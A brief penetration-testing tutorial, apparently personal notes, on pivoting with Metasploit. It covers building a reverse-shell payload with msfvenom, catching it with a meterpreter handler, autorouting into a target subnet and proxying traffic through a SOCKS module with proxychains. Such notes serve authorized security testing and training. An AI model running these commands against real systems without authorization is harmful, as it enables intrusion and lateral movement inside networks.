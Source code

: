 # Proxying with Metasploit 

## Pivoting with proxychains

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```
Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```


### Auto-Routing our Traffic

```msfconsole
use post/multi/manage/autoroute
set SESSION 1
set subnet $IP
exploit
```

## Setting up Proxy with Metasploit

Note: Depending on what version of Metasploit you are using, the Proxy Server module will be different. 
MSF5 and lower will have auxiliary/server/socks4a or socks5, MSF6 and newer will have socks/auxiliary/socks\_proxy. 
With MSF6, you will need to specify if you want to use SOCKS4(a) or SOCKS5.
```msfconsole
use auxiliary/server/socks4a
use auxiliary/server/socks_proxy # msf6 !!
```
Configure proxychains
```bash
vim /etc/proxychains.conf
# comment lines that aren't required or you'll create a longer misconfigured chain
socks$4-5 127.0.0.1 $AUXILIARY-SERVER-PORT-NUMBER-GOES-HERE
```
